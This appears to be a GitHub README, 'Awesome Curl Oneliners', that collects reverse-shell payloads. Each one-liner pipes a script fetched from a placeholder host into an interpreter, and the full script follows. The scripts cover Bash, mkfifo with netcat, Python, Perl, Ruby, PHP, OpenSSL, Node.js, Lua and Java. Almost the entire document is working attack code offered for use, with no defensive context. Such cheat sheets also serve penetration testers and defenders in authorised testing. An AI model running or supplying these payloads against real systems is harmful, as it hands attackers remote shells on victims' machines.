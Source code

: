 <h1 align="center"><b>Awesome Curl Oneliners</b></h1>

![image](https://github.com/user-attachments/assets/4e9e721d-5d9e-4e55-bcf2-6bde75d9b3d8)



<br>
<br>

Bash Reverse Shell

```bash

curl -s http://example.com/shell.sh | bash

```

shell.sh:

```bash

#!/bin/bash
bash -i >& /dev/tcp/127.0.0.1/1234 0>&1

```

Bash Reverse Shell using mkfifo

```bash

curl -s http://example.com/shell_fifo.sh | bash

```

shell_fifo.sh:

```bash

#!/bin/bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 127.0.0.1 1234 > /tmp/f

```

Python 2 Reverse Shell

```bash

curl -s http://example.com/shell_py2.py | python

```

shell_py2.py:

```bash

import socket, subprocess, os
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("127.0.0.1", 1234))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
subprocess.call(["/bin/sh", "-i"])

```

Python 3 Reverse Shell

```bash

curl -s http://example.com/shell_py3.py | python3

```

shell_py3.py:

```bash

import socket, subprocess, os
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("127.0.0.1", 1234))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
subprocess.call(["/bin/sh", "-i"])

```

Perl Reverse Shell

```bash

curl -s http://example.com/shell.pl | perl

```

shell.pl:

```bash

#!/usr/bin/perl
use Socket;
$i="127.0.0.1";
$p=1234;
socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
if(connect(S,sockaddr_in($p,inet_aton($i)))){
  open(STDIN,">&S");
  open(STDOUT,">&S");
  open(STDERR,">&S");
  exec("/bin/sh -i");
};


```

Ruby Reverse Shell

```bash

curl -s http://example.com/shell.rb | ruby

```

shell.rb:

```bash

#!/usr/bin/env ruby
require 'socket'
require 'open3'

def exec_cmd(cmd)
  Open3.popen2e(cmd) do |stdin, stdout_and_stderr, wait_thr|
    stdout_and_stderr.each do |line|
      yield line
    end
  end
end

s = TCPSocket.open("127.0.0.1", 1234)

while (line = s.gets)
  exec_cmd(line.chomp) do |output|
    s.puts output
  end
end

```

PHP Reverse Shell

```bash

curl -s http://example.com/shell.php | php

```

shell.php:

```bash

<?php
$ip = '127.0.0.1';
$port = 1234;
$sock = fsockopen($ip, $port);
$proc = proc_open('/bin/sh', array(0 => $sock, 1 => $sock, 2 => $sock), $pipes);
?>

```

Netcat Reverse Shell

```bash

curl -s http://example.com/shell_nc.sh | bash

```

shell_nc.sh:

```bash

#!/bin/bash
nc -e /bin/sh 127.0.0.1 1234

```

OpenSSL Reverse Shell

```bash

curl -s http://example.com/shell_openssl.sh | bash

```

shell_openssl.sh:

```bash

#!/bin/bash
mkfifo /tmp/ssl; openssl s_client -quiet -connect 127.0.0.1:1234 < /tmp/ssl | /bin/sh > /tmp/ssl 2>&1; rm /tmp/ssl

```
Node.js Reverse Shell


```bash
curl -s http://example.com/shell.js | node



```

shell.js:

```bash

(() => {
    const net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    const client = new net.Socket();
    client.connect(1234, "127.0.0.1", () => {
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the node script from crashing
})();

```
Lua Reverse Shell

 
```bash
curl -s http://example.com/shell.lua | lua
```
shell.lua:

 
```bash
local host, port = "127.0.0.1", 1234
local socket = require("socket")
local tcp = socket.tcp()
tcp:connect(host, port)
while true do
  local cmd = tcp:receive()
  local handle = io.popen(cmd)
  local result = handle:read("*a")
  handle:close()
  tcp:send(result)
end
```

```bash
curl -s -o shell.java http://localhost/shell.java && javac shell.java | java shell
```

shell.java:

```bash

import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;

public class shell {
    public static void main(String[] args) {
        try {
            Socket s = new Socket("127.0.0.1", 1234);
            InputStream in = s.getInputStream();
            OutputStream out = s.getOutputStream();
            Process p = new ProcessBuilder("/bin/sh").redirectErrorStream(true).start();
            InputStream pin = p.getInputStream();
            OutputStream pout = p.getOutputStream();
            while (!s.isClosed()) {
                while (in.available() > 0) pout.write(in.read());
                while (pin.available() > 0) out.write(pin.read());
                out.flush();
                pout.flush();
                try {
                    p.exitValue();
                    break;
                } catch (Exception e) {
                    // Process not finished yet
                }
            }
            p.destroy();
            s.close();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
